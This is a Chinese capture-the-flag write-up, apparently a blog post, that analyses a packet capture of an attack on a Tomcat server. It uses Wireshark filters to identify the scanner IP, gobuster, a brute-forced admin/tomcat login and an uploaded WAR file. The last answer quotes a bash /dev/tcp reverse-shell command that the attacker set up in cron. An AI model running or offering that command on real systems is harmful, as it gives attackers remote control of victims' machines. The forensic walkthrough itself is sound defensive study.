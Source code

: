 ```yaml
---
title: 第六章 流量特征分析-常见攻击事件 tomcat
subtitle:
date: 2025-03-14T14:29:40+08:00
slug: 1008ea3
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息
```

查找恶意扫描，需要确定SYN标志位为 `1`的数据包，确认同一个ip发出大量SYN字段的为攻击者

```
tcp.flags.syn == 1
```



![](images/3255da578c98b68e7c04d1898cd927fa.png)

发现大部分的SYN包来自于`14.0.0.120`
第一问：flag{14.0.0.120}

网站直接查询[IP归属地查询 - 在线工具](https://tool.lu/ip/)

![](images/0e08aabc1a2e6b4917c07c15cfb9cf1a.png)

第二问：flag{guangzhou}

tomacat的默认端口为`8080`，或者过滤查找请求为`200`

```
http contains "200"
```



![](images/42c89dcd79add54ae0098c27d5ea1736.png)

第三问：flag{8080}

过滤ip为`14.0.0.120`的攻击源，并查看`http`报文，过滤GET请求

```
ip.src_host == 14.0.0.120 && http && http.request.method == "GET"
```



![](images/382c9e48b96acab60b9569a8257343ed.png)

第四问：flag{gobuster}

tomcat的管理面板默认路径为`url/manager`

```
ip.src_host == 14.0.0.120 && http.uri contains "/manager"
```



![](images/8269a4fd939d9e9f9a6e952da3c3d7e6.png)

第五问：flag{admin-tomcat}

同上还是这个包，往下翻

![](images/e02482bde4c0e7cb795e940a31339b8c.png)

第六问：flag{JXQOZY.war}

上题题目提到建立了反弹shell，直接过滤

```
ip.src_host == 14.0.0.120 && frame contains "bin/bash"
```

追踪`TCP流`

![](images/d880c73d1c7caa82253985d9d39717ce.png)

攻击者通过`cron -i cron`命令定时反弹shell
第七问：flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}
